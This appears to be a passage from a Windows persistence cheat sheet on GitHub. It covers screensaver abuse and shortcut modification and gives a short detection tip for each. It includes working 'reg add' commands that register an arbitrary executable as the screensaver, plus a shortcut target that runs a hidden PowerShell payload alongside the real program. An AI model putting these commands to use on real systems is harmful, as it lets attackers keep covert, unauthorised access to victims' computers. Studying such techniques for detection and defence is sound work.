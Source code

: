#### Detection:
User can see malicious dll inside program folders.

</br></br>

## Screensaver
Screensavers are part of Windows functionality and let users to display a screen message or a graphic animation after some period of inactivity. This feature of Windows is known to be abused by threat actors as a method of persistence. This is because screensavers are executable files that have the **.scr** file extension and are executed via the scrnsave.scr utility.

Since the **.scr** files are essentially executables both extensions can be used to the file that will act as an implant.

*refer: https://pentestlab.blog/2019/10/09/persistence-screensaver/*

#### Example (exe):
To enable screen saver:

```powershell
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d "1"
```

To enable password for the screen saver:
```powershell
reg add "HKCU\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d "1"
```
 
 To change timeout for activating the screen saver:
```powershell
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /t REG_SZ /d "60"
```

To add your binary for screen saver:
```powershell
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\path\to\badguy.exe"
```

#### Detection:
User can see malicious strings in reg **HKCU**

</br></br>

## Shortcut Modification
You can change shortcut properties for stealth command execution. For example modify target shortcut to run this command:
```powershell
powershell.exe -c "powershell.exe -w hidden  C:\path\to\badguy.exe ; C:\path\to\shortcut_program.exe"

```
When user clicks this shortcut, system will start **badguy.exe** and **shortcut_program.exe ** simultaneously

#### Detection:
In process manager user can see malicious process.
